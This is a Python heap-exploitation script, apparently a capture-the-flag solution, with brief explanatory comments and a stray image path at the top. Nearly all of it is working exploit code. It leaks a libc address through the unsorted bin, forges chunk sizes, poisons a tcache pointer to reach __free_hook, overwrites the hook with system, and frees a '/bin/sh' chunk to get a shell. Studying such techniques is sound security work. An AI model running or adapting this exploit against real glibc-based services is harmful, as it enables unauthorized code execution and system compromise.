 ```python

# now create a chunk 0x200 with give us address of second chunk (with new size, so we have a chunk size 0x620)
create(0x200, b'\n')
# free it and it now go to the unsorted bin
delete()

# use first chunk again to leak the libc at fd of unsorted bin
create(0xf0, b'A' * 0x100)
show()

s.recvuntil(b'A' * 0x100)

unsorted_bin_leak = int.from_bytes(s.recvline().strip(), byteorder = 'little', signed = False)

libc_base = unsorted_bin_leak - unsorted_bin
system = libc_base + system_offset
free_hook = libc_base + free_hook_offset

# delete and reuse again to reedit the chunk size, because we crash it with 'A' in previous step, to not cause segment fault
delete()
payload = b'A' * 0xf0 + p64(0) + p64(0x621)
create(0xf0, payload)

# Part 2: overwrite free_hook and get shell
create(0x40, b'\n') #create and delete the first 0x50 size chunk
delete()

create(0x50, b'\n') #create a chunk for latter use (I will call this s_chunk)
delete()

create(0x20, b'\n') #create 2 chunk 0x30 and 0x20 with the total size is 0x50
delete()

create(0x10, b'\n')
delete()

create(0x30, b'\n')  # not necessary but just for fun LOL

payload = b'A' * 0x50 + p64(0) + p64(0x51) + b'\n'
create(0x50, payload) #comback to s_chunk and edit the size of third chunk
delete()

create(0x20, b'\n') #create chunk 0x30
delete() #after this, we free the second 0x50 size chunk


payload = b'A' * 0x60 + p64(free_hook) + b'\n'

create(0x50, payload) 
# back to s_chunk and overwrite fd pointer of 0x50 chunk to free-hook
delete()

create(0x40, b'\n')
# create the first 0x50 chunk, after this, tcache take the fd pointer to allocate next
# 0x50 chunk, but I overwrite it to the free_hook, so next time allocate(0x50),
# it will give me a pointer to free_hook

create(0x40, p64(system) + b'\n') # write address system to free_hook

create(0x10, b'/bin/sh\n') #create a chunk with str “/bin/sh”
delete() # free it, the program will call system(“/bin/sh”)
```
